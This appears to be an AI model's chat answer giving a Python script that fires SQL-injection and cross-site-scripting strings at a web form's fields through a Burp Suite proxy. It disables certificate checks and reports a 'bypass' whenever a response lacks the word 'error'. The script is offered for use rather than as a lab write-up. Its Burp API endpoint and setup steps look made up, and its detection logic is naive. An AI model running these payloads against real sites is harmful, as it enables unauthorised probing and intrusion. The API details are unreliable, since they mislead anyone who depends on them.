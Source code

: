 Here's an **advanced version** of the script that integrates **Burp Suite's API** to intercept, modify, and analyze HTTP traffic in real-time.  

---

### **🛠️ Prerequisites**
1. **Enable Burp Suite API:**  
   - Go to **Burp Suite → User Options → Misc**  
   - Enable API listening on **http://127.0.0.1:1337**  
2. **Install dependencies:**  
   ```bash
   pip install requests
   ```

---

### **🚀 Python Script: Bypassing Client-Side Validation Using Burp Suite**
```python
import requests
import json

# Burp Suite Proxy Configuration
BURP_PROXY = "http://127.0.0.1:8080"  # Change if your Burp Suite proxy uses a different port

# Burp Suite API Configuration (Enable Burp API at Port 1337)
BURP_API_URL = "http://127.0.0.1:1337/v0.1"

# Target Application
TARGET_URL = "https://example.com/order"

# Headers to mimic a browser
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Test Payloads for Bypassing Client-Side Validation
TEST_PAYLOADS = {
    "quantity": ["9999", "-1", "0", "abc", "' OR 1=1 --"],
    "email": ["invalid-email", "test@.com", "test@ex'ample.com"],
    "name": ["<script>alert(1)</script>", "admin' --"],
}

def burp_intercept_request():
    """Fetch and log requests intercepted by Burp Suite."""
    response = requests.get(f"{BURP_API_URL}/http/requests", headers={"Accept": "application/json"})
    
    if response.status_code == 200:
        requests_data = response.json()
        for req in requests_data:
            print(f"[BURP] Intercepted Request:\n{req['request']}")
    else:
        print("[ERROR] Could not fetch intercepted requests.")

def test_validation(url):
    """Test for client-side validation bypass."""
    for field, values in TEST_PAYLOADS.items():
        for value in values:
            print(f"[*] Testing {field} with: {value}")
            
            # Prepare request data
            data = {key: "valid" for key in TEST_PAYLOADS}  # Fill with dummy valid data
            data[field] = value  # Inject payload

            # Send request via Burp Proxy
            response = requests.post(url, headers=HEADERS, data=data, proxies={"http": BURP_PROXY, "https": BURP_PROXY}, verify=False)

            # Analyze response
            if "error" not in response.text.lower():
                print(f"[!] Possible bypass on {field}: {value}")
            else:
                print(f"[+] Server validated {field}")

def main():
    print("[*] Starting test via Burp Suite Proxy...")
    test_validation(TARGET_URL)
    print("[*] Fetching intercepted requests from Burp Suite...")
    burp_intercept_request()

if __name__ == "__main__":
    main()
```

---

### **🔍 How This Works**
1. **Sends invalid input** to form fields via Burp Suite's proxy.
2. **Intercepts HTTP requests** using Burp Suite’s API.
3. **Logs intercepted requests** to check if input validation is client-side only.
4. **Checks server response** for validation failures.
5. **Detects possible bypass vulnerabilities** (e.g., excessive input, XSS, SQLi).

---

### **🔥 Next-Level Enhancements**
- **Automate Burp Suite Actions:** Modify Burp Proxy settings dynamically.
- **Add response analysis:** Search for vulnerabilities based on HTTP responses.
- **Report generation:** Save detected vulnerabilities in a structured format.

---

### **Expected Output**
```
[*] Starting test via Burp Suite Proxy...
[*] Testing quantity with: 9999
[!] Possible bypass on quantity: 9999
[*] Testing email with: invalid-email
[+] Server validated email
[*] Fetching intercepted requests from Burp Suite...
[BURP] Intercepted Request:
POST /order HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0
...
```
